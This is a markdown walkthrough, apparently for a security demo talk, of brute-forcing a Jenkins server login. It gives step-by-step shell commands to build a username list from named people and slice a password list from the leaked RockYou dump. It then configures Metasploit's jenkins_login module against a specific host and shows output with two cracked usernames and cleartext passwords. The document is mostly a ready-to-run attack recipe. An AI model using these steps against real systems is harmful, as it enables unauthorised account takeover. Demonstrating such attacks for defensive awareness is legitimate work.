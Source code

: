 # Jenkins Bruteforce Login
Getting access via Social Engineering or Passwordcracking is the first attempt.

## Prepare Usernamelist

```bash
mkdir -p /root/demotalk/jenkinsBrute/
cd /root/demotalk/username-list-generator
rm output.txt user.txt
nano user.txt
```

put the names into nano.
Dont take all names to not break too much bruteforce into
```
Jeffrey van der Linden
Kay Meyer
Robert Bartsch
Ricardo Pope
```

```bash
python3 userlistcreator.py

mv output.txt /root/demotalk/jenkinsBrute/userlist.txt
cd /root/demotalk/jenkinsBrute/
```

## Prepare Passwordlist
Let's use the end of rockyoulist as that contains the sophisticated passwords
It contains 14344392 leaked passwords
Rockyou.txt is a set of compromised passwords from the social media application developer also known as RockYou. It developed widgets for the Myspace application. In December 2009, the company experienced a data breach resulting in the exposure of more than 32 million user accounts. It was mainly because of the company’s policy of storing the passwords in cleartext.

```bash
cd /root/demotalk/jenkinsBrute/
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
```

## Login Scan Module
If we want to access Jenkins as a user, we need to find a bit more information of login options.

#### Get Login URL
There are typically two login-URLs in Jenkins-world
* `/j_acegi_security_check`
* `/j_spring_security_check`
* or something the Administrator configured (like PingAccess or so)

Let's use Burpsuite to find out details.

### Prepare Options
Now that we know how to login, we can use metasploit to brute force login.
The exploit must be configured.

```bash
msfconsole

use auxiliary/scanner/http/jenkins_login
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 80
set USER_FILE /root/demotalk/jenkinsBrute/userlist.txt
set PASS_FILE /root/demotalk/jenkinsBrute/passwordlist.txt
set LOGIN_URL j_spring_security_check
set STOP_ON_SUCCESS true

exploit
```
There will be two successful attempts

```bash
[+] 34.159.77.191:80 - Login Successful: Robert.Bartsch:!@#$%1234pacr1234!@#$%
[+] 34.159.77.191:80 - Login Successful: Jeffrey_van_d_Linden:!@#$%67890QAZwsxh
```

